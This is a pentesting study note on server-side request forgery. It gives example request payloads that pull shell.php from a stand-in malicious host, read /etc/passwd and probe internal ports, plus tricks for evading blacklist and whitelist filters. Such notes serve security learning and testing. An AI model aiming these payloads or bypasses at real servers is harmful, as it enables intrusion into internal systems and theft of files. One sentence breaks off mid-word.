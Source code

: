 ```yaml
---
title: SSRF attack - Server Side Request Forgery
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# SSRF attack - Server Side Request Forgery

??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 7. Data Validation Testing > 7.19. Testing for Server-Side Request Forgery
	
    | ID   | Link to Hackinglife             | Link to OWASP                                                                                                                                                                                                        | Description                                                                                                                    |
    | :--- | :------------------------------ | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------- |
    | 7.19 | [WSTG-INPV-19](../OWASP/WSTG-INPV-19.md) | [Testing for Server-Side Request Forgery](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery) | - Identify SSRF injection points.  - Test if the injection points are exploitable.  - Asses the severity of the vulnerability. |



Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location. The attacker could create a request to internet or to the intranet, which can be used to port scan or probe a remote machine. Basically, it could allow an atacker to:

- Take control of a remote machine.
- Read or update data.
- Read the server configuration.
- Connect to internal services...


With:

```
http://
file:///
dict://
```


## Exploitation


### Load the Contents of a File

```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

[See Burpsuite Labs](../burpsuite/burpsuite-ssrf.md)

### Read files from restricted resources 

```
GET https://example.com/page?page=https://localhost:8080/admin
GET https://example.com/page?page=https://127.0.0.1:8080/admin
GET https://example.com/page?page=file:///etc/passwd
```


### Read files from other backend systems

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses.


```
GET https://example.com/page?page=https://localhost:3306/
GET https://example.com/page?page=https://localhost:6379/
GET https://example.com/page?page=https://localhost:8080/
```

Gopherus sends non authenticated requests to other services and it succedde
## Techniques

**Bypass blacklist-based input filters**

Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using the following techniques:

- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

**Bypass whitelist-based input filters**

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

- Using the `@` character to separate between the userinfo and the host: `https://expected-host:fakepassword@evil-host
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: - `https://expected-host.evil-host`
- URL encoding. Double URL-encode characters to confuse the URL-parsing code.
- Fuzzing
- Combinations of all of the above

### Exploiting redirection vulnerabilities

It is sometimes possible to bypass filter-based defenses by exploiting an open redirection vulnerability.

## Resources

- [Portswigger: https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf).
- [Portswigger labs](https://portswigger.net/web-security/all-labs#server-side-request-forgery-ssrf).


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).
- Gopherus.


